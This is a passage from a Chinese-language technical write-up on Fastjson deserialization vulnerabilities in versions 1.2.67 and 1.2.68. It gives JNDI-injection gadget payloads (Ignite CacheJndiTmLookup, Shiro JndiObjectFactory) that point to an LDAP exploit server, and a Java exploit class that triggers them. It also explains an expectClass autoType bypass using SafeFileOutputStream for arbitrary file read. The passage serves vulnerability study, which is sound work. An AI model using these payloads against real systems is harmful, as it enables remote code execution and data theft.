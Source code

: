 - Fastjson &lt;= 1.2.67；  
- JNDI注入利用所受的JDK版本限制；  
- org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类需要ignite-core、ignite-jta和jta依赖；  
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core和slf4j-api依赖；  
### 漏洞原理  
新Gadget绕过黑名单限制  
`org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup`类Poc  
`{&#34;@type&#34;:&#34;org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup&#34;, &#34;jndiNames&#34;:[&#34;ldap://localhost:1389/Exploit&#34;], &#34;tm&#34;: {&#34;$ref&#34;:&#34;$.tm&#34;}}`  
`org.apache.shiro.jndi.JndiObjectFactory`类Poc  
```json  
{&#34;@type&#34;:&#34;org.apache.shiro.jndi.JndiObjectFactory&#34;,&#34;resourceName&#34;:&#34;ldap://localhost:1389/Exploit&#34;,&#34;instance&#34;:{&#34;$ref&#34;:&#34;$.instance&#34;}}  
```  
### exp  
```java  
import com.alibaba.fastjson.JSON;    
import com.alibaba.fastjson.parser.ParserConfig;    
import com.sun.xml.internal.ws.api.ha.StickyFeature;    
    
public class EXP_1267 {    
    public static void main(String[] args) {    
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);    
 String poc = &#34;{\&#34;@type\&#34;:\&#34;org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup\&#34;,&#34; &#43;    
                &#34; \&#34;jndiNames\&#34;:[\&#34;ldap://localhost:1234/ExportObject\&#34;], \&#34;tm\&#34;: {\&#34;$ref\&#34;:\&#34;$.tm\&#34;}}&#34;;    
 JSON.parse(poc);    
 }    
}  
```  
## 0x04 1.2.68反序列化漏洞(expectClass绕过AutoType)  
### 前提条件  
Fastjson&lt;=1.2.68  
利用类必须是expectClass类的子类或实现类，并且不在黑名单中；  
### 漏洞原理  
本次绕过`checkAutoType()`函数的关键点在于其第二个参数expectClass，可以通过构造恶意JSON数据、传入某个类作为expectClass参数再传入另一个expectClass类的子类来实现绕过`checkAutoType()`函数绕过恶意操作。  
1、先传入某个类，其加载成功后将作为expectClass参数传入`checkAutoType()`函数；  
2、查找expectClass类的子类或实现类，如果存在这样一个子类或实现类其构造方法或`setter`方法中存在危险操作则可以被攻击利用；  
### 实际利用  
#### 复制文件（任意文件读取漏洞）  
利用类`org.eclipse.core.internal.localstore.SafeFileOutputStream`  
```java  
&lt;dependency&gt;    
 &lt;groupId&gt;org.aspectj&lt;/groupId&gt;    
 &lt;artifactId&gt;aspectjtools&lt;/artifactId&gt;    
 &lt;version&gt;1.9.5&lt;/version&gt;    
&lt;/dependency&gt;  
```  
其`SafeFileOutputStream(java.lang.String,java.lang.String)`构造函数判断了如果`targetPath`文件不存在且`tempPath`文件存在，就会把`tempPath`复制到`targetPath`中，正是利用其构造函数的这个特点来实现Web场景下的任意文件读取  
```java  
public class SafeFileOutputStream extends OutputStream {    
    protected File temp;    
    protected File target;    
    protected OutputStream output;    
    protected boolean failed;    
    protected static final String EXTENSION = &#34;.bak&#34;;    
    
```